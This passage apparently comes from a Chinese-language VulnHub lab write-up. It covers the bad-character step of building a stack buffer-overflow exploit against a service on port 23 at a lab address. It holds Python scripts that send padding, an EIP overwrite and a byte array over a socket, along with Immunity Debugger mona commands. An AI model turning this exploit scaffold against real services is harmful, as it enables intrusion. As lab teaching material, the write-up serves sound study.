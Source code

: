 ```python
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4"
"\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

再次执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![15](https://static.iihack.com/vulnhub/613/15.png)

```bash
!mona bytearray -cpb \x00\x4d\x4f\x5f\x79\x7e
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x60\x61\x62\x63"
"\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x7a\x7b\x7c\x7d\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5"
"\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5"
"\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5"
"\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```
